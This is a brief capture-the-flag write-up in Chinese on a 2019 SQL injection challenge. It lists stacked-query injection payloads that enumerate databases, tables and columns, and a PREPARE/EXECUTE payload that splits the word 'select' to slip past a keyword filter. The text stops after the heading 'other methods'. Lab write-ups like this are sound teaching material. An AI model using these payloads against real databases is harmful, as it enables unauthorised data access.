






# [强网杯 2019]随便注

## Tag

SQL 注入

***

## Writeup

随便注一下发现过滤很多字段：

可以通过 `1';show databases#` 和 `1';show tables#`得到信息：

用 “1';show columns from `1919810931114514`;#”看到有 flag（当表名为纯数字的时候需要使用 ` 符号）：

但是 select 等字段都过滤掉了，一种解决方法是预编译语句，Payload：`1';PREPARE hacker from concat('s','elect', ' * from `1919810931114514` ');EXECUTE hacker;#`

其他方法：

